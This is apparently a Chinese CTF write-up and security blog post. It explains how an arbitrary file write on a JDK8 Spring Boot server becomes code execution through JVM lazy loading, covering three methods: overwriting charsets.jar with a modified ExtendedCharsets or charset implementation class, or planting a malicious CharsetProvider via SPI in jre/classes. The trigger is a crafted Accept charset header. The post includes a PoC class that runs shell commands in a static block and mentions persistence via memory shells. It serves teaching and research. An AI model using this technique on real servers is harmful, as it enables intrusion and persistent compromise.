










# 前言

最近在校赛遇到了这样的一道题，一个springboot的站点有一个任意文件写漏洞，常规思路就是写ssh公钥或者计划任务，但都失败了。后面复盘了解到是利用java懒加载机制覆盖charsets.jar，后面面试也问到了但是没能很好答出来，复现的时候也发现这个姿势并没有仅仅覆盖就好了这么简单，因此有了这篇文章。


# 原理

JVM是懒加载的，意思是类或对象在首次使用时才被加载或初始化，从而节省启动资源和内存开销。但这里要精确一点：真正的"空档期"是"这个 jar 从未被打开过"。jar 一旦被打开，它的中央目录索引（每个条目的数据偏移 offset、压缩后长度 csize、解压后长度 usize）就已经缓存在内存里，而且不会自动刷新。此后再去覆盖文件内容，只有"新条目与旧索引结构一致"时才会读到新字节；如果长度、偏移变了（植入代码必然让 class 变大），JVM 会拿旧长度去解压新数据，直接加载失败，只能重启。所以我们能利用的空档期，是这个 jar 还没被打开过的那段时间。

核心问题就两个：一、找到一个从未被jvm使用过的jar包，二、是否能人为控制使jvm去加载这个懒加载的jar包里的类。

而我们今天的主角就是charsets.jar这个文件。


# 环境

Jdk8u202(必须是jdk8，因为jdk9以上charsets.jar已经消失)

Linux系统(因为windows默认GBK居多，编码不同会影响利用后续会说明)

SpringBoot项目


# 入口：Charset.forName()

## 请求侧

首先来到Charset.forName(String charsetName)这个静态方法，这个静态方法可以让jvm去加载charsets.jar里的类(后续会详细讲解)。其中在springboot项目中这个方法参数charsetName完全可控。我们只需在请求包加上 **Accept: text/html;charset=Poc** ，那么后端就会执行**Charset.forname("Poc")**。

首先在forName方法设下断点



发送请求包

```http
GET /hello HTTP/1.1
Host: 127.0.0.1:8080
Accept: text/html;charset=Poc122
Connection: close

```

我们就可以在栈帧看到对应的执行情况，可见charsetName完全可控，且是由springmvc在解析Accept字段时执行的。



## 源码侧

我们来解析一下forName这个静态方法。他没有直接去查找字符集，而是委托给了lookup去执行。

```java showLineNumbers startLineNumber=527 title="Charset.java"
    public static Charset forName(String charsetName) {
        Charset cs = lookup(charsetName);
        if (cs != null)
            return cs;
        throw new UnsupportedCharsetException(charsetName);
    }
```

lookup方法会先去cache1(Charset类的一个静态字段)找该字符集，命中缓存则直接返回否则继续委托给lookup2进行查找

```java showLineNumbers startLineNumber=455 title="Charset.java"
    private static Charset lookup(String charsetName) {
        if (charsetName == null)
            throw new IllegalArgumentException("Null charset name");
        Object[] a;
        if ((a = cache1) != null && charsetName.equals(a[0]))
            return (Charset)a[1];
        // We expect most programs to use one Charset repeatedly.
        // We convey a hint to this effect to the VM by putting the
        // level 1 cache miss code in a separate method.
        return lookup2(charsetName);
    }
```

接着lookup2会去cache2查找字符集，若命中则直接返回且与cache1交换值，未命中则继续查找。接下来的查找是通过standardProvider.charsetForName(charsetName)、lookupExtendedCharset(charsetName)、lookupViaProviders(charsetName)来完成的，并且只有当前者查找未成果时才会去执行后者。

```java showLineNumbers startLineNumber=467 title="Charset.java"
    private static Charset lookup2(String charsetName) {
        Object[] a;
        if ((a = cache2) != null && charsetName.equals(a[0])) {
            cache2 = cache1;
            cache1 = a;
            return (Charset)a[1];
        }
        Charset cs;
        if ((cs = standardProvider.charsetForName(charsetName)) != null ||
            (cs = lookupExtendedCharset(charsetName))           != null ||
            (cs = lookupViaProviders(charsetName))              != null)
        {
            cache(charsetName, cs);
            return cs;
        }

        /* Only need to check the name if we didn't find a charset for it */
        checkName(charsetName);
        return null;
    }
```

### standardProvider.charsetForName()

首先是standardProvider.charsetForName(charsetName)，standardProvider是StandardCharsets类的一个实例，加载负责jdk自带的标准字符集，并非我们今天的重点，但是也不能让他查找成功，否则后续的两个语句不会正常执行，所以需要使用标准字符集外的payload。

### lookupExtendedCharset()

然后是lookupExtendedCharset，451行代码访问了ExtendedProviderHolder静态内部类的extendedProvider静态字段。

```java showLineNumbers startLineNumber=450 title="Charset.java"
    private static Charset lookupExtendedCharset(String charsetName) {
        CharsetProvider ecp = ExtendedProviderHolder.extendedProvider;
        return (ecp != null) ? ecp.charsetForName(charsetName) : null;
    }
```

随后触发了ExtendedProviderHolder内部类的加载，并且执行它的extendedProvider()方法，该方法后续会执行Class.forName("sun.nio.cs.ext.ExtendedCharsets")把sun.nio.cs.ext.ExtendedCharsets加载到jvm内存中，而 ExtendedCharsets 位于 charsets.jar 里。如果 JVM 在此之前没查过任何"非标准编码"，这才是它第一次打开这个 jar。该前提只在 Linux（UTF-8）下成立：**Windows 默认编码是 ANSI 代码页（中文 GBK、英文 Cp1252）**，属于扩展字符集，JVM 启动时就会发起查找加载对应的类，所以 charsets.jar 在jvm启动时就已经被打开了。

```java showLineNumbers startLineNumber=426 title="Charset.java"
    private static class ExtendedProviderHolder {
        static final CharsetProvider extendedProvider = extendedProvider();
        // returns ExtendedProvider, if installed
        private static CharsetProvider extendedProvider() {
            return AccessController.doPrivileged(
                       new PrivilegedAction<CharsetProvider>() {
                           public CharsetProvider run() {
                                try {
                                    Class<?> epc
                                        = Class.forName("sun.nio.cs.ext.ExtendedCharsets");//类加载
                                    return (CharsetProvider)epc.newInstance();
                                }
```

这是第一种思路：**在 JVM 从未打开过 charsets.jar 时，我们去替换 charsets.jar，修改 jar 包里的 ExtendedCharsets 类，在原有代码基础上加入 static 代码块执行我们的恶意代码。**在 Linux/UTF-8 环境下，charsets.jar 通常整个生命周期都不会被打开，所以覆盖后第一次被打开时读到的就是新文件，无需重启即可生效；反之如果 JVM 已经打开过它，覆盖后就必须重启（除非让新 jar 的结构与被覆盖条目完全一致）。

**第二种思路就是修改扩展字符集里的实现类(如sun.nio.cs.extGBK等)。**

extendedProvider();方法最后的返回值就是ExtendedCharsets类的一个实例，随后lookupExtendedCharset方法执行了ecp.charsetForName(charsetName)，即调用了ExtendedCharsets类的实例方法charsetForName去查找字符集。

不过charsetForName方法的实现不在ExtendedCharsets类里，而是他的父类AbstractCharsetProvider中，如下代码所示。这里var1是Charset.forName(String charsetName)开始一直透传下来的charsetName，并且还调用了canonicalize函数去处理，其实就是把用户传入的字符集名称，转换成该字符集的**规范名称**，一开始传入规范名称就好了。(如utf8会规范成UTF-8) 随后委托给lookup方法去查找。

```java showLineNumbers startLineNumber=116 title="AbstractCharsetProvider.java"
    public final Charset charsetForName(String var1) {                     //源于idea的反编译的代码，可能有差异
        synchronized(this) {
            this.init();
            return this.lookup(this.canonicalize(var1));
        }
    }
```

接下来来到lookup方法。前面首先是从缓存中查找字符集，不过我们这边的理想场景是第一次查找扩展字符集，所以不可能命中缓存。(String)this.classMap.get(var1);这一行是把字符集的**规范名称**转成对应的**实现类名**，随后调用Class.forName(this.packagePrefix + "." + var9, true, this.getClass().getClassLoader());该字符集的实现类。this.packagePrefix是硬编码的sun.nio.cs.ext，在ExtendedCharsets的构造函数可以找到相应的逻辑。

```java showLineNumbers startLineNumber=88 title="AbstractCharsetProvider.java"
    private Charset lookup(String var1) {
        SoftReference var2 = (SoftReference)this.cache.get(var1);
        if (var2 != null) {
            Charset var3 = (Charset)var2.get();
            if (var3 != null) {
                return var3;
            }
        }

        String var9 = (String)this.classMap.get(var1);
        if (var9 == null) {
            return null;
        } else {
            try {
                Class var4 = Class.forName(this.packagePrefix + "." + var9, true, this.getClass().getClassLoader());
```

可见最后执行了Class.forName(this.packagePrefix + "." + var9, true, this.getClass().getClassLoader());去加载对应的字符集实现类。这里我们可以去这些实现类里植入我们的恶意代码，随后再去覆盖charsets.jar包即可。

### lookupViaProviders()

这一部分和我们今天的主题（覆盖charsets.jar）无关，但它是整条链里最实用的一个点：它走的是Java的SPI服务发现机制，会去classpath上找实现了CharsetProvider接口的类并加载进jvm。观看这部分内容前建议先学习**Java SPI服务发现**。

相关代码位于337行。可见这里使用的是ClassLoader.getSystemClassLoader()，即系统类加载器，而不是loadInstalled。ServiceLoader.load()和sl.iterator()本身并不会去读文件，真正的读取classpath上所有META-INF/services/java.nio.charset.spi.CharsetProvider、逐行解析出实现类的全限定名、Class.forName加载并校验是否为CharsetProvider的子类、最后newInstance()实例化，都是懒加载的，推迟到第一次hasNext()/next()时才执行。

```java showLineNumbers startLineNumber=337 title="Charset.java"
    private static Iterator<CharsetProvider> providers() {
        return new Iterator<CharsetProvider>() {

                ClassLoader cl = ClassLoader.getSystemClassLoader();
                ServiceLoader<CharsetProvider> sl =
                    ServiceLoader.load(CharsetProvider.class, cl);
                Iterator<CharsetProvider> i = sl.iterator();
```

注意这里并没有直接把sl.iterator()返回出去，而是又包了一层匿名类，关键在下面的getNext()。

```java showLineNumbers startLineNumber=337 title="Charset.java"
                CharsetProvider next = null;

                private boolean getNext() {
                    while (next == null) {
                        try {
                            if (!i.hasNext())
                                return false;
                            next = i.next();
                        } catch (ServiceConfigurationError sce) {
                            if (sce.getCause() instanceof SecurityException) {
                                // Ignore security exceptions
                                continue;
                            }
                            throw sce;
                        }
                    }
                    return true;
                }
```

可见它是用来跳过因安全异常（SecurityException）失败的provider，其它ServiceConfigurationError照常抛出，避免某个写坏的provider把整个字符集查找搞挂。另外java.util.Iterator有hasNext、next、remove三个抽象方法，不是函数式接口，所以也只能用匿名类来写。

因为这里用的是系统类加载器，双亲委派会影响两件事：一是getResources会先问父再问自己，并且把每一层命中的名单文件都收集起来，所以应用classpath、ext目录以及引导类路径上的同名文件都会被扫到；二是类加载同样父优先，因此把provider类放在引导类路径上的目录（例如jre\classes）里，系统类加载器也能通过父委派找到它。顺带一提，同一个类名只会被实例化一次，多份名单是按顺序生效的。

接着就是真正的调用点，相关代码位于387行。

```java showLineNumbers startLineNumber=337 title="Charset.java"
    private static Charset lookupViaProviders(final String charsetName) {
        if (!sun.misc.VM.isBooted())
            return null;

        if (gate.get() != null)
            // Avoid recursive provider lookups
            return null;
        try {
            gate.set(gate);

            return AccessController.doPrivileged(
                new PrivilegedAction<Charset>() {
                    public Charset run() {
                        for (Iterator<CharsetProvider> i = providers();
                             i.hasNext();) {
                            CharsetProvider cp = i.next();
                            Charset cs = cp.charsetForName(charsetName);
                            if (cs != null)
                                return cs;
                        }
                        return null;
                    }
                });

        } finally {
            gate.set(null);
        }
    }
```

可见在查provider之前先判断了VM.isBooted()，为false时直接返回null，是因为jvm启动早期应用类加载器还没有初始化，此时去扫provider会让它被提前初始化；随后用gate这个ThreadLocal做了防重入，如果我们在payload里再去查别的编码，内层这次会直接返回null；最后挨个执行cp.charsetForName(charsetName)，谁先返回非null就用谁，都不行才返回null。

#### 对利用的意义

前面说过，覆盖charsets.jar要抢的是"这个jar还没被打开过"的空档期，而lookupViaProviders给了我们另一条路：不用改任何jar，只要往jvm会扫描的目录里放两个文件，一个是CharsetProvider的实现类，另一个是META-INF/services/java.nio.charset.spi.CharsetProvider名单，内容就是该实现类的全限定名。

```
jre\classes\
 ├─ evil\Poc.class
 └─ META-INF\services\java.nio.charset.spi.CharsetProvider     ← 内容一行：evil.Poc
```

触发方式和前面完全一样，还是Accept: text/html;charset=Poc1，此时链路变成Charset.forName("Poc1") → ③lookupViaProviders → ServiceLoader读到evil.Poc → Class.forName + newInstance → evil.Poc.charsetForName("Poc1")。

# 演示

## 方案1：修改ExtendedCharsets类

如图所示，加入静态代码块，这里是不修改原有代码的情况下增加相应的恶意代码，并没有完全重写ExtendedCharsets，这也是为了不影响系统整体的稳定性着想。执行命令输出结果到tmp的resuslt.txt。保存文件编译为ExtendedCharsets.class



用解压工具打开charsets.jar，我这边用的是bandzip。把修改好的ExtendedCharsets.class拖进去，点击覆盖。至此恶意jar包已经制作完成。



然后用这个jar包去覆盖jdk目录下正常的charsets.jar，然后请求包带上Accept: text/html;charset=123，发包



可在tmp目录下找到命令执行的结果


## 方案2：修改字符集实现类(以java.nio.charset.IBM33722为例)

依旧老一套，修改 -> 编译 -> 替换，不多赘述。



发包



成功执行



## 方案3：利用SPI机制

**%JAVA_HOME%\jre\classes**目录是启动类加载器的类路径条目之一。但是classes目录在默认情况下是不存在的，需要手动创建，也就是说这个方案是不适于一些任意文件写的场景的(因为可能不能创建目录)，不过可以在其他地方RCE后利用这个去打内存马实现持久化。

首先创建对应的目录和写入对应的文件，结构如下。

```
jre\classes\
 ├─ evil\Poc.class
 └─ META-INF\services\java.nio.charset.spi.CharsetProvider     ← 内容一行：evil.Poc
```

其中java.nio.charset.spi.CharsetProvide文件的内容如下

```
evil.Poc
```

这是我这边示例的Poc.class的源码。

```java
package evil;

import java.nio.charset.Charset;
import java.nio.charset.spi.CharsetProvider;
import java.util.Iterator;

public class Poc extends CharsetProvider {

    static {
        try {
            Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", "whoami > /tmp/result.txt"});
        } catch (Exception e) {
        }
    }

    public Iterator<Charset> charsets() { return null; }

    public Charset charsetForName(String n) { return null; }
}
```

发包



在tmp里找到命令的输出结果


